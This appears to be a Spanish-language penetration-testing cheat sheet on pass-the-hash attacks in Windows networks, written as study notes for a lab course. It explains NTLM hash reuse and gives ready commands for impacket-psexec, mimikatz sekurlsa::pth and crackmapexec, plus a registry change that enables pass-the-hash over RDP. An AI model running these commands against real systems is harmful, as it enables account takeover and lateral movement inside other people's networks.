 # Pass the hash

#### [Pass the ticket](./passTheTicket.md)

- [more info](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/over-pass-the-hash-pass-the-key)

## Español:

#### Definición
- El ataque PTH es una tecnica utilizada para comprometer cuentas en ambientes windows sin tener la necesidad de conocer las contraseñas en texto plano. En lugar de usar la contraseña se utiliza el hash de la misma para autenticarse.

## Utilización
1. Post explotación
2. Movimiento lateral: Para moverse lateralmente dentro de una red si la maquina comprometida tiene acceso a recursos compartidos.
3. Escalación de privilegios

## Funcionamiento
- Mediante NTLM.
- NTLM es un protocolo de autenticación Windows que no requiere la contraseña en texto plano para validar autenticaciones (hashes NT).
    - Obtener hash NT de un usuario (dumping de credenciales con mimikatz x ej).
    - Usar el hash para autenticarse.
    - Acceder a recursos protegidos (smb, rdp, winrm, etc).

### Impacket con psexec
`impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453`
`DOMAIN/USER@TARGET -hashes LMHASH:NTHASH`

### Mimikatz
- Permite autenticar usando hashes con el modulo `sekurlsa::pth`
`sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:NTHASH /run:COMMAND`
`sekurlsa::pth /user:admin /domain:. /ntlm:0123456789abcdef0123456789abcdef /run:cmd.exe`

### Crackmapexec
`crackmapexec smb TARGET_IP -u USER -H NTHASH`
`cme smb 192.168.1.10 -u admin -H 0123456789abcdef0123456789abcdef`

## Permitir Pth con RDP
`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
- ![](https://academy.hackthebox.com/storage/modules/147/rdp_session-5.png)
- Una vez de que la llave fue agregada al registro del sistema podemos intntar usar xfreerdp con la opción /pth